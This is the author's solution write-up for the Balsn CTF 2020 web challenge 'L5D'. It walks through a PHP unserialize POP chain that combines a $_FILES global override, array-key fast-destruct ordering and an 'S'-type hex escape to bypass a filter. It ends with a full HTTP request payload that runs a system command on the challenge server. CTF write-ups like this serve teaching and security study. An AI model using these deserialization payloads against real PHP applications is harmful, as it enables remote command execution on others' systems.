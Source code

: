 # Balsn CTF 2020 

# L5D

- Difficulty: ★★
- Type: Web
- Solved: 17 / 490
- Tag: Warmup, PHP, Unserialize, POP chain

## Description

「Taking L5D was a profound experience, one of the most important things in my life.」

Try this new Unserialize-Oriented Programming System a.k.a. L5D !

http://l5d.balsnctf.com:12345/index.php

PHP Version: 7.0.33

Author: kaibro


## Source Code

- [L5D](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2020/L5D/src/)


## Solution


In this challenge, there are 5 classes that contain some magic methods like `__construct`, `__destruct`.

And we have a arbitrary unserialize entry point:

```php
$wtf = waf($_GET{'?'}) ? $_GET['?'] : (finalize() && die("Nice try!"));
if($goodshit = @unserialize($wtf)) {
    $is_unser_finished = true;
}
```

So our target is to chain these classes' magic method to read the `/flag` file.

And most of the classes didn't have any property (only global variable), so it is hard to do pop chain (Property Oriented Programming) exploit.

But we can use `Array` to chain these classes together, like this:

```
Array(classA, classB, classC, ...);
```

It will unserialize multiple classes at the same time, and then the magic methods of these classes will be called.

Next, we should find a path to read flag.

The `L5D_Command` class is an attractive target, its `__destruct()` will run system command with global variable `cmd`.

And the `L5D_ResetCMD` class can reset the `cmd` variable by `new_cmd` property, but we should set our `$_SESSION['name']` to `wubalubadubdub` first:

```php
if($_SESSION['name'] === 'wubalubadubdub') {
    $cmd = $this->new_cmd;
}
```

In `L5D_Login` class, you can set the right session name, but you need to know the flag content first. It is impossible. We should find another way to exploit.

Let's take a look at the `L5D_Upload` class, this class has an obvious variable override vulnerability:

```php
foreach ($_FILES as $key => $value)
    $GLOBALS[$key] = $value;
```

We can overwrite any global variable to a file array (with some information that we uploaded).

So we can use this vulnerability to override the `$_SESSION` variable by upload a file with key `_SESSION`.

And everybody knows that `$_FILES`'s value looks like:

```
Array('name' => 'xxx', 'tmp_name' => 'xxx', 'size' => 'xxx' ...)
```

It can just overwrite the `$_SESSION['name']`, and the `name` is our uploaded filename!

(Note: you should upload a valid image file, or it will call `finalize()` to destroy your `$_SESSION` and `$cmd`)

So final exploit chain is:

1. `L5D_Upload` overwrite `$_SESSION['name']` to `wubalubadubdub`
2. `L5D_ResetCMD` reset `$cmd` to `cat /flag`
3. `L5D_Command` call `system($cmd)`

But there is still a small problem, lots of `__wakeup()` function will destroy your session or some important global variable in the process of unserialization. These variables will make your exploit failed.

An easy way to control order of `__wakeup()` and `__destroy()` is to use the [Fast Destruct](https://github.com/ambionics/phpggc#fast-destruct) trick.
It means that if you define two same key in an array, the first one object will be destroyed (it will call `__destroy()`) in the process of deserilization.
So you don't need to wait until the program ends to call `__destroy()`.

Finally, one of a valid exploit chain looks like this:

```
Array(0=>L5D_Command, 1=>L5D_ResetCMD, 2=>L5D_Upload, 2=>L5D_SayMyName, 3=>L5D_Login, 3=>L5D_SayMyName, 1=>L5D_SayMyName)
```

I use a useless `L5D_SayMyName` class to destroy other object with same key.

So the executing order of above exploit chain is:

1. `L5D_Command` wakeup
2. `L5D_ResetCMD` wakeup
3. `L5D_Upload` wakeup
4. `L5D_SayMyName` wakeup and `L5D_Upload` destroy
5. `L5D_Login` wakeup
6. `L5D_SayMyName` wakeup and `L5D_Login` destroy
7. `L5D_SayMyName` wakeup and `L5D_ResetCMD` destroy
8. Program End
9. `L5D_Command` destroy and other `L5D_SayMyName` destroy

And the final part, `waf()` function will block `*` character.
We should bypass this restriction to control the `$new_cmd` variable in `L5D_ResetCMD` class.

There is a small [trick](https://github.com/ambionics/phpggc#ascii-strings) can help us. If we change the type specifier of string from `s` to `S`, then we can use `\xx` hex representation in serialization data.

`s:10:"%00*%00new_cmd"` => `S:10:"\00\2A\00new_cmd%"`

Final payload:

```
POST /?%3f=a:7:{i:0;O:11:%22L5D_Command%22:0:{}i:1;O:12:%22L5D_ResetCMD%22:1:{S:10:%22%5C00%5C2A%5C00new_cmd%22;s:9:%22cat%20/flag%22;}i:2;O:10:%22L5D_Upload%22:0:{}i:2;O:13:%22L5D_SayMyName%22:0:{}i:3;O:9:%22L5D_Login%22:0:{}i:1;O:13:%22L5D_SayMyName%22:0:{}i:3;O:13:%22L5D_SayMyName%22:0:{}} HTTP/1.1
Host: l5d.balsnctf.com:12345
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148
Content-Type: multipart/form-data; boundary=---------------------------133915844616073813622061755521
Content-Length: 840
Cookie: PHPSESSID=dq2t165cscptkm24vb57e5f872
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="l5d_file"; filename="php.jpg"
Content-Type: image/jpeg

{IMAGE DATA}
-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="_SESSION"; filename="wubalubadubdub"
Content-Type: image/jpeg

aaa
-----------------------------133915844616073813622061755521
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------133915844616073813622061755521--
```

(Note: This is not the only one exploit chain :D)

<br>
<br>


> BTW
> Actually, this is just a warmup challenge compared to other web challenge.
> But some china teams said this challenge is too easy in the feedback.
> Maybe I should prepare a more complex (or harder) warmup challenge next year XD? (flee


## Writeups

- [The Flat Network Society
](https://github.com/TFNS/writeups/tree/master/2020-11-14-BalsnCTF/l5d)
- [Super Gusser](https://github.com/Super-Guesser/ctf/tree/master/BalsnCTF2020/web/L5D)
- [安全客](https://www.anquanke.com/post/id/222675#h2-1)

